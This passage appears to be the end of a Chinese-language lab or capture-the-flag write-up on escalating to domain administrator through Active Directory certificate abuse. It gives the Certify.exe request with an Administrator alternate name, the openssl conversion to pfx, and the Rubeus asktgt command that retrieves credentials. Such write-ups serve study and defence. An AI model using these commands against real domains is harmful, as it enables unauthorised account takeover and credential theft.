 `certify.exe request /ca:<$certificateAuthorityHost> /template:UserAuthentication  /altname:Administrator`

![](https://pic.l1nyz-tel.cc/20230602145056.png)

把 cert.pem 复制到本地执行命令生成 pfx 文件 `openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx`

再将 pfx 上传回 window 靶机中

> Then, transfer the pfx file and `rubeus.exe` to the machine. We can use `asktgt` with the certificate.

`.\Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /getcredentials`

![](https://pic.l1nyz-tel.cc/20230602145520.png)

![](https://pic.l1nyz-tel.cc/20230602145845.png)

# Solved

![](https://pic.l1nyz-tel.cc/20230602144138.png)
